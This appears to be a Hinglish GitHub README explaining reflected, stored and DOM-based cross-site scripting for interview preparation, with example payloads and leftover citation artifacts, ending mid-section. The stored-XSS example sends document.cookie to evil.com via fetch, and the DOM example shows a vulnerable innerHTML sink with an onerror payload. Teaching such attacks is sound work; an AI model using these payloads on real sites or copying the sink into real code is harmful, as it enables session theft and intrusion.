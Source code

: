 ## Cross Site Scripting ( XSS ) Vulnerability Payload List
## 🔍 Overview :

**Cross‑Site Scripting (XSS)** attacks ek tarah ka injection attack hai, jisme attacker malicious scripts ko inject karke ek benign aur trusted website ko compromise kar leta hai. XSS tab hota hai jab attacker web application ka use karke malicious code (mostly browser-side JavaScript) dusre end user ke browser tak bhej deta hai. Ye vulnerability tab exploit hoti hai jab web app user ka input bina validation ya encoding ke output me use kar deti hai—aur ye flaw kaafi common hai. :contentReference[oaicite:0]{index=0}

Attack ka mechanism kuch is tarah ka hai:  
- Attacker XSS ke zariye khatarnaak script bhejta hai unsuspecting user ke browser me.  
- Browser is script ko trusted source (web app) se aane wale code ki tarah samajh leta hai, aur execute kar deta hai.  
- Script browser me store cookies, session tokens, ya sensitive information access kar sakta hai.  
- Ye script HTML page ka content bhi modify (rewrite) kar sakta hai. :contentReference[oaicite:1]{index=1}

# Types of Cross‑Site Scripting (XSS)

## 1. Reflected XSS (Non‑Persistent)  
- **Description:** Server user input ko turant response mein bina sanitize kiye reflect karta hai.  
- **Example:**  
               https://example.com/search?term=<script>alert('XSS')</script>
  Browser is script ko trusted source se samajh ke execute kar deta hai :contentReference[oaicite:0]{index=0}.  
- **Interview mein bolna:**  
“Reflected XSS tab hota hai jab input URL ya form se server tak jaata hai aur response me turant HTML context me reflect hota hai, jisse user click karte hi script run ho jaata hai.”

---

## 2. Stored XSS (Persistent)  
- **Description:** Attacker script database ya kisi stored field (comment/post) mein permanently save kar deta hai.  
- **Example:**  
User ne comment mein `<script>fetch('https://evil.com?c='+document.cookie)</script>` inject kiya, aur jab koi page access karta hai, script execute ho jaata hai :contentReference[oaicite:1]{index=1}.  
- **Interview mein bolna:**  
“Ye sabse khatarnaak hota hai kyunki payload stored rehta hai aur har visitor ke browser mein execute ho sakta hai—session hijack, defacement, phishing sab possible hai.”

---

## 3. DOM‑Based XSS  
- **Description:** Pure client-side hota hai. JavaScript DOM methods (e.g., `innerHTML`) user input ko unsafe tarike se content me inject kar dete hain.  
- **Example:**  
```js
         const name = new URLSearchParams(window.location.search).get('name');
           document.getElementById('greet').innerHTML = name;

Agar URL ho ?name=<img src=x onerror=alert('XSS')>, toh browser me alert box show hoga

- **Interview mein bolna:**  
“Yahaan server safe hai, lekin client-side JS vulnerability hai—data sanitization miss, DOM me inject.”

